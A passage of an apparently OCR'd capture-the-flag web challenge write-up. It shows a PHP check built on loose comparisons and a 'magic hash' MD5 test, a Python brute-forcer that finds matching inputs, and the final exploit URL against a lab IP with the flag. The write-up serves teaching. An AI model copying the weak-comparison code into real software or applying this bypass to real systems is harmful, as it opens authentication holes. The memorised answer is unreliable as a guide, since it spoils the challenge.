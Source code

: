 ```php
        //0==‘XIPU’为真，搜索到0值的下标为2
        $p===false?die("ha?"):NULL; 
        foreach($x2["x22"] as $key=>$val){ 
            $val==="XIPU"?die("ha?"):NULL; 
        } 
        $c=1; 
} 
} 
$x3 = $_GET['x3']; 
if ($x3 != '15562') { 
    if (strstr($x3, 'XIPU')) { 
        if (substr(md5($x3),8,16) == substr(md5('15562'),8,16)) { 
            //两个符合正则  /0e\d+/  的字符串弱相等。
            // 爆破见下方python代码
            $d=1; 
        } 
    } 
} 
if($a && $b && $c && $d){ 
    include "flag.php"; 
    echo $flag; 
} 
?>
```

```python
def brute():
    for a in range(0x20, 0x7f):
        for b in range(0x20, 0x7f):
            for c in range(0x20, 0x7f):
                    x = chr(a) + chr(b) + chr(c)+s
                    mm=md5(x.encode('UTF-8')).hexdigest()
                    flag=1
                    for i in mm[10:24]:
                        if i not in '0123456789':
                            flag=0
                            break
                    if flag and mm[8:10]=='0e':
                        print(x)

brute()
# kN[XIPU
# v=|XIPU
# y'wXIPU
# }MOXIPU
# ~VhXIPU
## http://192.168.200.200/web/bestlanguage/?x1=0&x2={%22x21%22:%222018hello%22,%22x22%22:[[],0]}&x3=~VhXIPU
## flag{510ea2879fa29d0d618b1f55350965c3}
```

# the user is admin
